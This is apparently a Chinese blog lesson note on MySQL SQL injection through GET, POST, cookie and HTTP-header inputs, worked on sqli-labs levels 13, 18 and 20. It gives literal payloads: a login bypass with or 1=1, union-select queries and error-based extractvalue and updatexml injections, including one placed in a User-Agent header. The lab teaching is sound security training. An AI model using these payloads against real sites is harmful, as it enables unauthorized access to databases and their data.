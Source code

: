 # 05-mysql提交方式注入

  
# 常见提交方式下的注入漏洞

>前言：WEB应用在数据传递接受中，针对SQL注入安全漏洞，由于数据大小，格式等原因，脚本在接受传递时会有多种传递方式，传递方式的不同将影响到安全测试的不同！本课将针对此类问题进行逐一讲解。


  
## 第一点：数据常见提交方式

`https://www.cnblogs.com/weibanggang/p/9454581.html`





  
## 第二点：产生注入的接受方式

例子：GET
POST：
COOKIE ：
REQUEST ：     $_REQUEST()  何种方法都可以接参数
SERVER： http头部注入。$_SERVER           https://www.cnblogs.com/jianmingyuan/p/5900064.html
等





## 第三点：实战测试案例-sqlilabs关卡

#### post登陆框注入-sqlilabs less13

涉及知识点:   万能密码

Less-13 无回显
Less-11 有回显

```sql
-- 一般是没有括号的，先手工，再工具试试有没有其他符号干扰
-- 可以用hackbar等进行post参数注入

-- 方法1
')or 1=1 -- + 
-- 然后开始按照步骤开始利用 （盲猜  order by 3, 库名，表，列，数据）
admin') union select null,database()#
-- 这里面没回显数据的 地方，想办法让他报错/工具跑
-- sqlmap  post参数是  --data ""

-- 下面的没成功， 可以再试试
admin') union select count(*), concat(select database()) as admin from information_schema.tables group by admin\

-- 报错注入
admin') and extractvalue(1,concat(0x7e,(select database()),0x7e))#


+加号类似空格  


```

#### http头部注入-sqlilabs less18

$_SERVER()

比如站长之家获取我的浏览器的数据，其中http头部可以修改（你懂得）

```sql

```




#### cookie修改注入-sqlilabs less20

无回显  

```sql
-- 大概是这样
User-Agent: admin' or updatexml(1,concat(0x7e,database(),0x7e),0) or '


```

---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://geoer.cn/05-mysql%E6%8F%90%E4%BA%A4%E6%96%B9%E5%BC%8F%E6%B3%A8%E5%85%A5/  

